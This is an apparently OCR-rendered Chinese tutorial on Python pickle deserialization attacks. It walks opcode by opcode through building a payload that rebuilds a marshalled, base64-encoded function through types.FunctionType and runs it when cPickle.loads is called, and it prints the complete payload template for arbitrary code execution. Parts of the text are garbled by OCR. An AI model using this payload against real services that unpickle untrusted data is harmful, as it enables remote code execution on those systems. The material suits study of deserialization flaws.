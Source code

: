 ```python
ctypes          
FunctionType    
（cmarshal      
loads
(S‘%s’          # types.FunctionType(marshal.loads('%s'
                # %s格式化，在最后面会接上反序列化内容，替换%s 

t：相当于右括号，就是‘)’。后面一般跟着R。
R：相当执行命令，执行它与前面最近的一个c之间的内容,后面不为空，除非结束。
ctypes          
FunctionType    
（cmarshal      
loads
(S‘%s’
tRc__builtin__   # __builtin__，python导入模块，我们平时默认使用一些函数与它有关
globals          
(tRS''           # types.FunctionType(marshal.loads('%s'),globals(),''
tR(tR            # (types.FunctionType(marshal.loads('%s'),globals(),''))()

.：表示结束
ctypes          
FunctionType    
（cmarshal      
loads
(S‘%s’
tRc__builtin__   
globals          
(tRS''           
tR(tR.

到这就完结
```
完整payload
```python
s = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR."""%base64.b64encode(marshal.dumps(function.func_code))
```
这样再反序列化，就可以执行
```python
cPickle.loads(s)
```
因为实际开发用的可能是pickle，pickle.loads可以直接反序列化对象，所以types.classobj很少用

这里用到的思路都是动态定义函数，所以同类型里，python依旧有很多类似的函数，可供君使用。（查文档）

到这，我们可以随意构造恶意函数了，达到任意代码执行的结果

### 参考文章
- https://xz.aliyun.com/t/2289
- https://www.tttang.com/archive/1294/
- https://zhuanlan.zhihu.com/p/25981037
- http://www.sohu.com/a/274879579_729271
